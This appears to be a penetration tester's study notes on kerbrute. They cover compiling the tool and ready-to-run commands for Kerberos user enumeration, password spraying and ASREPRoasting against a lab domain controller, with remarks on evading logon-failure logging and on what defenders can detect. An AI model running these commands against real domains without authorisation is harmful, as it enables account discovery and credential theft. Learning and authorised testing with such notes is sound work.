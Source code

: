 -- -
Software to bruteforce kerberos.
### Compile from source
```bash
# clone repo
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute

# Show compilation options
make help

# compile only linux binary
sudo make linux

# compile a binary for all OSes (Windows, Linux, and Mac)
sudo make all

# Compiled binaries will be located in the newly created dist directory
# Move binary onto path. Of note, you can literally just move the binary to any location on your path
echo $PATH
sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
```

### Enumerating Users
When enumerating usernames, kerbrute uses Kerberos Pre-Authentication to validate users in the domain. It is much faster and (potentially) stealthier way to perform password spraying. Does not generate Windows `Event ID 4625: An account failed to log on`, which is what is **usually** monitored for. Kerbrute sends a TGT request to the DC, if the DC replies with a `PRINCIPAL UNKNOWN` error, then the username does not exist. This method **will not** lockout any accounts. 
Kerbrute will trigger `Event ID 4768: A Kerberos authentication ticket (TGT) was requested`, which will only be triggered if `Kerberos event logging` is enabled via Group Policy. Defenders can tune their SIEM tools to look for an influx of this event ID. So the tool isn't foolproof 
```bash
# this assumes you have identified two data points:
# Domain Controller: You've identified the IP of a Domain Controller
# Domain: You know the name of the Domain administered by the Domain Controller
kerbrute userenum -d <domain> --dc <dc ip> <user wordlist> -o <output file> 
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```

^3c4231

#### Password Spray
```bash
# Generic
kerbrute passwordspray -d <domain> --dc <dc ip> <userlist> <passwd>

# Specific
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

^ab0bcd

#### ASREPRoasting
[[ASREPRoasting]]
```bash
kerbrute userenum -d <domain> --dc <dc ip> <userlist>
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```

^38353d
